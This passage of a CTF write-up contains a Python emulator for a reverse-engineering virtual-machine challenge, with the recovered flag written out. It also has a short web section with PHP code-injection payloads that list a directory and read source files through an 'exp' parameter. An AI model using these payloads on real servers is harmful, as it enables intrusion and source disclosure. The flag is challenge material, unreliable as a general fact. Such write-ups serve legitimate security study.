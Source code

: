 ```python
    global key, current, enc, flag
    v1 = key[1]
    v3 = key[2]

    if v1 == 0xe1:
        current = enc[0]
    elif v1 == 0xe2:
        print('e2, ??/')
    elif v1 == 0xe3:
        print('e3, ??/')
    elif v1 == 0xe4:
        # flag.append(current if not b else current ^ 0xD)
        flag.append(current)
        enc = enc[1:]
    key = key[6:]


def sub_400A01(a1):
    global key, current
    current ^= 0xD
    key = key[1:]


def sub_400BCF(a1):
    global key
    for _ in [0, 1, 2, 3]:
        if key[0] == 0xf1:
            return sub_400A31(0)
        elif key[0] == 0xf2:
            sub_400A01(0)  # f2
        elif key[0] == 0xf3:
            return 0
        elif key[0] == 0xf4:
            print('input')
            key = key[1:]
            return


while 1:
    result = key[0]
    if result == 0xF3:
        break
    sub_400BCF(0)
print(''.join([chr(x) for x in flag]))
# flag{51mpl3_v1rtu@l_m@ch1n3}
```


## Web
### Web12
类似 [[GXYCTF2019]禁止套娃](https://www.jianshu.com/p/43de35540878)
```php
POST /?exp=print_r(scandir(pos(localeconv())));
`?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));`
```
源码
